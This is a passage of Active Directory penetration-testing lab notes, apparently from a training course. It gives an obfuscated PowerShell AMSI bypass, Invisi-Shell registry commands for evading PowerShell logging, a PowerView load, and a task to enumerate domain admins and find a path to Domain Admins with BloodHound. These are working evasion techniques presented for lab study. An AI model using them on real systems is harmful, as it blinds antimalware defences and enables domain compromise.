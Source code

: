 ### AMSI bypass
```
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + 
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GetvarI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( 
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f 
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( 
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### Start a PowerShell session using Invisi-Shell to avoid enhanced logging
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```
C:\AD\Tools>set COR_ENABLE_PROFILING=1
C:\AD\Tools>set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /ve /t REG_SZ /d 
"C:\AD\Tools\InviShell\InShellProf.dll" /f
The operation completed successfully.
C:\AD\Tools>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

### Load PowerView
```
. C:\AD\Tools\PowerView.ps1
```

### Learning Objective 1
*** Task ***
* Enumerate following for the dollarcorp domain:
− Users
− Computers
− Domain Administrators
− Enterprise Administrators
* Use BloodHound to identify the shortest path to Domain Admins in the dollarcorp domain.
* Find a file share where studentx has Write permissions.
